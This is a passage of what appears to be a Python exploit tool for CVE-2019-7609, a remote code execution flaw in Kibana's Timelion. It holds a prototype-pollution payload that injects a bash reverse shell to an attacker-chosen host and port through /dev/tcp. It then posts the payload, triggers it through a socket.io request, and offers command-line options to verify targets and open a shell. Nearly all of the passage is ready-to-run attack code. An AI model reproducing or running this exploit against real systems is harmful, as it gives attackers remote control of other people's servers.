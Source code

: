 ```
    data = r'''{"sheet":[".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')\n.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],"time":{"from":"now-15m","to":"now","mode":"quick","interval":"10s","timezone":"Asia/Shanghai"}}''' % (random_name, random_name, ip, port)
    url = "{}{}".format(target, "/api/timelion/run")
    r1 = requests.post(url, data=data, verify=False, headers=headers, timeout=20)
    if r1.status_code == 200:
        trigger_url = "{}{}".format(target, "/socket.io/?EIO=3&transport=polling&t=MtjhZoM")
        new_headers = headers
        new_headers.update({'kbn-xsrf': 'professionally-crafted-string-of-text'})
        r2 = requests.get(trigger_url, verify=False, headers=new_headers, timeout=20)
        if r2.status_code == 200:
            time.sleep(5)
            return True
    return False


if __name__ == "__main__":
    start = time.time()

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest='url', default="http://127.0.0.1:5601", type=str, help='such as: http://127.0.0.1:5601')
    parser.add_argument("-host", dest='remote_host', default="127.0.0.1", type=str, help='reverse shell remote host: such as: 1.1.1.1')
    parser.add_argument("-port", dest='remote_port', default="8888", type=str, help='reverse shell remote port: such as: 8888')
    parser.add_argument('--shell', dest='reverse_shell', default='', action="store_true", help='reverse shell after verify')

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.url
    remote_host = args.remote_host
    remote_port = args.remote_port
    is_reverse_shell = args.reverse_shell

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        version = get_kibana_version(target)
        result = verify(target)
        if result:
            print("[+] {} maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability".format(target))
            if is_reverse_shell:
                result = reverse_shell(target, remote_host, remote_port)
                if result:
                    print("[+] reverse shell completely! please check session on: {}:{}".format(remote_host, remote_port))
                else:
                    print("[-] cannot reverse shell")
        else:
            print("[-] {} do not exists CVE-2019-7609 vulnerability".format(target))
    except Exception as e:
        print("[-] cannot exploit!")
        print("[-] Error on: \n")
        traceback.print_exc()
```
